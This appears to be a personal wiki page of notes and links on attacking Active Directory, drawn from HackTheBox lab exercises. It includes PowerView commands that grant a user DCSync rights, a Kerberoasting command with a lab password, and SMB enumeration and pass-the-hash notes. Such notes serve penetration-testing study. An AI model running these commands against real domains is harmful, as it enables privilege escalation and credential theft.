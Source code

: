 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Exploitation Strategies
 - [ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
 - **WriteDACL**
   - [WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)
 - [Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
 - [NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)
 - [DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
   - **With PowerView**:
    ```
    whoami /all
    Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
    net group "Exchange Windows Permissions" /add svc-alfresco
    Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
    Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
    Get-DomainUser -Identity svc-alfresco
    Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
    ```
 - [SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
   - ```gppdecrypt```
 - [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
   - GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100```
   - Requires an account user with a service principal name (SPN)

## Active Directory Tools
 - [PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
   -  ```. .\powerview.ps1```
 - [BloodHound CE](https://github.com/SpecterOps/BloodHound)
 - **NSE**
   - ```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
 - **SMB**
   - Enum4Linux
   - SMBMap
   - smbclient
   - smbclient.py (Impacket)
   - [NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
   - [SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

## Impacket Tools
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
 
## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
